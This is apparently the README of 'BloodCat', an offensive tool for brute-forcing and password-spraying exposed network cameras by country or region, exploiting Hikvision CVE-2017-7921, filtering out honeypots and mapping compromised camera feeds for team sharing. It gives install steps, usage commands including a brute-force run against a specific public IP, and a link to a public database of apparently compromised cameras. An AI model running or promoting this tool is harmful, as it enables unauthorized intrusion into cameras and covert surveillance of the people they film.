


 

# Blood-Cat

A tool for hacking into publicly exposed network cameras, with support for specifying country and region.


PS: This tool supports weak‑credential and brute‑force testing against most mainstream network camera models. However, some devices with enhanced security mechanisms deliberately obfuscate or conceal their fingerprinting characteristics, which means the tool is not universally effective. Future updates will progressively introduce additional camera‑related CVE‑based vulnerability detection plugins, aiming to improve success rates while reducing unnecessary probing traffic.

**About BloodCat**

1. Integrates with search engines, enabling target filtering and continuous threat operations by **country, region, or city**.
2. Operates at the **lower network protocol layer**, providing high stealth and efficiency.
3. Performs **camera fingerprint identification** first, automatically filtering out and excluding **honeypot systems**, then enumerates **usernames and passwords** of target network cameras.
4. Supports **password spraying**, applicable to **single IPs or multiple IP ranges**. 
5. Supports **bc data updating and merging**, facilitating long-term maintenance and management.
6. Supports writing **Hikvision camera credential header information** into **bc files**, which can be **visualized on a map**.

**Scanner I recommend: [https://github.com/MartinxMax/n1ght0wl.git](https://github.com/MartinxMax/n1ght0wl.git)**

**About CVE-2017-7921_HIK_Auto_Crack**
Exploits the Hikvision CVE vulnerability, automatically generating **CSV files** for import into **iVMS-4200** for viewing, or **JSON files** for import into **BloodCat**.

**About BloodCat-Map**

1. Compromised devices can be **visualized on a map**, with direct access to **camera feeds**.
2. Supports **team collaboration** and **data sharing**, etc.
3. Supports **remote API data loading**.
4. Provides **fuzzy search and location-based querying**.


 
**About BloodCat-Map-LAN**

1. When attacking **internal network cameras**, this program can be launched to view **compromised cameras**.
2. Supports **automatic layout arrangement** for camera feed viewing.


```
                                               ..,.oooE777999V(;
                                  ...oooP779090(;''       ''''  I
                    ...ooB777979V;;''       .....=v}}=}=}=}}v==  5
               97?(;''     .........<<vvvv<vvvvvvvvvvvvvvv}}}}v} L
               ,   ..;;`;;;;;<;<<<<<<<<<<<<<v<vvvvvvvvvv}vv}}}}}. 1
               b (:::``;;;;;;;;;;;<;<;<<<<<<<<<<<<v<v<vvvvvvvv}v}, E
               `J ::.:.:.``;;;;;;;;;;;<;;;<<<<<<<<<<<<v<v<vvvvvvvx L
                L  :. :.:.:.:.``;;;;;;;;;;;;;;<;<<<<<<<<<<v<<v<vv<( T
                `> .    . .:.:.:.:.`:;``;;;;;;;;<;;;<;<<<<<<<<<<<v< >
                 b ;           . : .:.:.:.`;;;;;;;;;;;<;;<;<<<<<<<<, I
                 `,`               . : :.:.:.:.`.`;;;;;;;;;;;;<;<;<<. 5
                  b ;                    . : .:.:.:.`;;;;;;;;;;;<;<;<: E
                  `,<                         . . .:.:.:.``;;;;;;;;;;. I
                   b :                             . . :.:.:.:.:.:.;;;. 5
                   `>;                                  . .:..:.:.:.`.:  |
                    b :                                      . . :.:.:.x T
                    `,;                                          . . .::  E
                     b :                                               _  !4
                     `r :                                   __.__,--,;'))))).
                      b :                         ___...--'; `))))))))' '' `>!9eOc
                      `r :              __,--:-;;;)))))))))))'' '' ' ' _. -'-'.`!9Eg.
                       L : . __.--_--:,)))))))))))'' ' '  _. ._.-'-'-'-'\-'\---\/\ ``Qu.
                       `,: !x;:)))))))) ')'' ' _ _._-.'\'\_\_-'\''-\'_'\-'\'\ -_\'-\-. 95n.
                        D` ))))'''  _ .___.-_:/-/\/-_\ /-_, /-,\ \-/_\/\,-\_/-\/-/--' ..v<]9o.
                      __b :<> -_\._/\,- ,_ -\ _/\-\ _-\ -_/-\,\/,-/\_/-_\'\--' .vvvvvvv}v}}x}]NEo.
                .ooPO%LOCu  `< `/\_ -:\/_/-/,\/,/-,/_,-/\ :_\:_-:__-'' ...vvvvvvvvvvvvxx}vx}}}}==No
              .oPO'       `y. `< ~-\ _\/\_,- \ , - ,___..--' .......>>vvvvvvvvx<xvvxx}=x===}~^^   I
        om3jR&57'          `Ey, `\ `!,\ \-/_/\_---''.......vv>>vvvvvvvvvv)v<xvx=}=<~~^~`       :_yd
    _.rq8'                    `L, `<_ `--'.......vv<<<<v<<<<x<vv<vvvvxxxx=>~~~`         iuuuaE'
  .@tTL'                        `y,  `< .-vvv<<<<<<<<<xxvx>vvvvv=>~~~~`         _uuua'''
.&P'                              `L,  `>>><<<<><>v<vvvvvx~`::`       ::_uuua'''
                                    `y,  `:F_P:<x>~>^` `        _uuug'
                                      `L,  ~~`          _uuua''
                                        `L,:    _uuua''
                                          `LaE''
```


---

# Video


<a href="https://www.youtube.com/watch?v=q4WR4QpiIwI">
  
</a>
<a href="https://www.youtube.com/watch?v=BaA30uFkXbc">
  
</a>
<a href="https://www.youtube.com/watch?v=_HDXlHj8HlQ">
  
</a>
 

---

# Install Dependencies

Disk space requirement: `Available space > 600 MB`

```bash
$ sudo apt update && sudo apt install ffmpeg python3-pyqt5.qtwebengine -y
$ git clone https://github.com/MartinxMax/BloodCat.git
$ cd BloodCat && python3 -m venv bloodcat
$ source ./bloodcat/bin/activate
(bloodcat)$ python -m pip install --upgrade pip
(bloodcat)$ pip install opencv-python;pip install -r requirements.txt
``` 

If you are using the Windows operating system, please download `https://github.com/MartinxMax/BloodCat/releases/download/play/ffplay.exe` and move the downloaded .exe file into the `./lib/` directory.

---

# BloodCat Usage

```bash
(bloodcat)$ python3 bloodcat.py -h
```


---

## Bruteforce a specific camera IP

```bash
(bloodcat)$ python3 bloodcat.py --ip "188.134.80.244:554"
```


```bash
(bloodcat)$ python3 bloodcat_map.py
```


---

## Bruteforce for  IP list

```bash
(bloodcat)$ python3 bloodcat.py --ips target.txt
```


```bash
(bloodcat)$ python3 bloodcat_map.py
```


## Bruteforce camera IPs in a specific country/region (via FoFa)

```bash
(bloodcat)$ python3 bloodcat.py --country CN --region HK --key <FOFA-API-KEY>
```


---

## Merge .bc Data

Place all `.bc` files that need to be merged into the `./data/` directory.


```bash
(bloodcat)$ python3 bloodcat.py --merge
```


After execution,
`./data/20260108_171450.bc` will be a deduplicated and merged .bc file.

Replace the original global.bc file, then right-click Reload in BloodCat_Map:

```bash
(bloodcat)$ mv ./data/20260108_171450.bc ./data/global.bc
```


---

## Hikvision Crack && iVMS-4200

```bash
(bloodcat)$ python3 CVE-2017-7921_HIK_Auto_Crack.py --ips ./target.txt --json ./data/hik.json
```




```bash
(bloodcat)$ python3 bloodcat.py --hiv ./data/hik.json
```




Download link : https://github.com/MartinxMax/BloodCat/releases/tag/play

```bash
(bloodcat)$ python3 CVE-2017-7921_HIK_Auto_Crack.py --ips ./target.txt --csv ./data/hik.csv
```


---

# Blood-Cat-Map Usage


```bash
(bloodcat)$ python3 bloodcat_map.py
```

 


## Remote API Data

By entering a remote data URL, you can load external datasets.

You may test using the official BloodCat database:

`https://raw.githubusercontent.com/MartinxMax/db/refs/heads/main/blood_cat/global.bc`


You can also copy API database links from other BloodCat-Map instances:


The target data will be loaded and displayed on the map.
If you need to remove an entry, click the X on the right side.
Remote-loaded raw data is not automatically saved locally,
but the remote URL will be written into the configuration file.


## IP Tracking


You can enter keywords here to perform fuzzy matching on targets.
This allows you to quickly lock and track specific targets on the map.


## Team Collaboration

To use the chat feature, all team members must:
· Be on the same local network (LAN)
· Run BloodCat-Map simultaneously

The good news is:
· No need to enter peer IP addresses
· No need to worry about sniffing attacks
· Chat packets are encrypted

TEAM A:

TEAM B:


---

# Blood-Cat-Map LAN Usage

This is a internal network camera viewer

Test file:
`https://github.com/MartinxMax/BloodCat/releases/download/play/BloodCat_Map_LAN_Test.zip`

```bash
(192.168.0.102)$ unzip BloodCat_Map_LAN_Test.zip
(192.168.0.102)$ cd BloodCat_Map_LAN_Test
(192.168.0.102)$ bash lunch.sh
(192.168.0.107)$ unzip BloodCat_Map_LAN_Test.zip
(192.168.0.107)$ cd BloodCat_Map_LAN_Test
(192.168.0.107)$ bash lunch.sh
```


```bash
# target.txt
192.168.0.107:8554
192.168.0.102:8554
```

```bash
$ python3 bloodcat.py --ips target.txt
```


```bash
$ python3 bloodcat_map_lan.py
```


---


